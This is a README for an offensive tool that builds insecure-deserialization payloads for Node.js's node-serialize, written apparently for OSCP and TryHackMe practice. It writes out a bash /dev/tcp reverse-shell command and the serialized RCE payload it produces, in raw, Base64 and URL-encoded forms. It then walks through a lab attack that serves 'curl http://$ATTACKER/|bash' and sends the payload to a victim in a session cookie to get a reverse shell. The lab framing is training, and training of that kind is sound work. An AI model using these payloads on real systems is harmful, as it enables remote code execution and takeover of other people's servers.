 # CerealEyes

Set of applications to help with the exploitation of Insecure Deserialization 
vulnerabilities.

I will try to add more functionalities and/or support for more programming languages
as I see them.

## Why this repository?

1. I have seen many people exploiting this vulnerability in some languages, and they
keep modifying the file to make a different serialized object. Nevertheless, I like
specifying the payload as an argument. I think it is quicker.

2. If I ever have the opportunity to take the OSCP (by Offensive Security), I would like
to spend little time in doing this task and yet exploiting this manually.

3. Why not?

### Node.js

To serialize objects with the payloads we want, we should install the packages:
- `node-serialize`
- `argparse`
with `npm install <package>`

See the help:
```bash
serialize.js -h
```

Serialize an JSON object with the specified payload:
```bash
serialize.js 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'
```
Will return:
```text
{"rce":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"bash -i >& /dev/tcp/127.0.0.1/443 0>&1\",function(error,stdout,stderr){console.log(stdout)})}()"}
```

Serialize an JSON object with the specified payload and encode it in Base64:
```bash
serialize.js 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1' -b
```
Will return:
```text
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKFwiY2hpbGRfcHJvY2Vzc1wiKS5leGVjKFwiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQzIDA+JjFcIixmdW5jdGlvbihlcnJvcixzdGRvdXQsc3RkZXJyKXtjb25zb2xlLmxvZyhzdGRvdXQpfSl9KCkifQ==
```

Serialize an JSON object with the specified payload, encode it in Base64 and encode it
in URL format:
```bash
serialize.js 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1' -b -u
```
Will return:
```text
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKFwiY2hpbGRfcHJvY2Vzc1wiKS5leGVjKFwiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQzIDA+JjFcIixmdW5jdGlvbihlcnJvcixzdGRvdXQsc3RkZXJyKXtjb25zb2xlLmxvZyhzdGRvdXQpfSl9KCkifQ%3D%3D
```
**Note**: When both `-b` and `-u` are used, it always encode in Base64 and then in URL 
format regardless of the order they were specified.

#### Practical example

We can put it into practise with [Jason](https://tryhackme.com/room/jason), a free THM room:
```bash
atk$ echo "bash -i >& /dev/tcp/$IP/443 0>&1" > index.html
atk$ sudo python3 -m http.server 80
```
Within another console:
```bash
atk$ PAYLOAD=$(./serialize.js "curl http://$ATTACKER/|bash" -b)
atk$ curl -sS http://$VICTIM/ -G -b "session=$PAYLOAD"
```
If we had a listener on port 443, within a third console, we should get a reverse shell.



